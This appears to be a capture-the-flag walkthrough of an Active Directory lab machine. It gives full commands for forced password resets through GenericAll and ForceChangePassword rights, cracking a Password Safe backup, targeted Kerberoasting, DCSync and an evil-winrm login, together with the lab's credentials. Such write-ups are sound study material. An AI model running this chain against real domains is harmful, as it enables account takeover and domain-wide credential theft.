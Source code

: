 This is a assumed breach machine we have creds `Olivia:ichliebedich` 
We can start with a nmap scan
```
53 DNS
88 Kerberos
135 RPC
139
445
593
636
3268 LDAP
5985 winrm
```
Domain `administrator.htb` Hostname `DC`
Looking at the ftp the creds we have don't work for the FTP it does work for SMB but no interesting shares so we need to get a list of users for enumeration 
```
administrator
Guest
krbtgt
olivia
michael
benjamin
emily
ethan
alexander
emma
```
Now we need to get bloodhound data looking at the data we have GenericALL over the user `michael` so we can force change the password `net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"` and now we own this user and he has `ForceChangePassword` over the user `benjamin` `net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.10.11.42"` now we own this user now we can FTP with this user and there is a file called `backup.psafe3` we can use `pwsafe2john` and get the hash `pwsafe2john backup.psafe3 > hash_psafe` and we can use john to crack it `john psafe3_hash --wordlists=rockyou.txt` and it cracked to `tekieromucho` we can open this file with `pwsafe backup.psafe3` and enter the password and we get creds to three more users and emily login works `emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb` we got winrm access and this user also has GenericWrite over the `ethan` user we can do a kerberost attack on this user `python3 targetedKerberoast.py -v -d 'administrator.htb' -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'` and we get the hash we can run hashcat and it cracked to `ethan:limpbizkit` looking at bloodhound agin we can DCSync and get the admin account hash and now we can evil-winrm into the admin and get root flag 